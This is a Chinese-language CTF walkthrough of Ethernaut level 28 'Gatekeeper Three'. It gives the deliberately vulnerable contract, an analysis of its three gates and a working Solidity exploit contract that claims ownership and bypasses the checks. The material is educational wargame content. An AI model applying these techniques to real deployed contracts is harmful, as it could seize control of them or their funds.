

## Level_28.Gatekeeper Three

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

#### 分析

##### 第一道关卡

依旧很简单，一个假的构造函数，可以直接利用` call `调用，这样` owner `就会变成Exp合约地址；

之后调用` enter() `时，` tx.origin `则为我们的钱包地址；

##### 第二道关卡

调用` getAllowance() `，然后拿到` SimpleTrick `合约中正确的` password `即可；

##### 第三道关卡

首先需要` GatekeeperThree `合约中大于0.001ETH，之后向` owner `合约中发送ETH需要失败，可以在` receive() `中使用` revert() `中来拒绝收款；


#### 攻击

1. 调用` createTrick `创建` SimpleTrick `合约，此时会初始化` password `；
2. 获得` SimpleTrick `合约地址，并且拿到正确的` password `，使` allowEntrance `为true；
3. 创建一个exp合约，调用` construct0r() `，使` owner `变成exp合约地址，同时` receive `中使用` revert `来拒绝收款；
4. 发送0.0011ETH到题目合约中；

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    GatekeeperThree public gt;
    constructor(address addr) {
        gt = GatekeeperThree(payable(addr));
    }

    function Attack(uint256 password) public  {
        gt.construct0r();
        gt.getAllowance(password);
        gt.enter();
    }

    receive() external payable { 
        revert();
    }
}

```

得到` SimpleTrick `合约地址：


获得正确的密码：



发送ETH：


部署exp合约，并Attack；

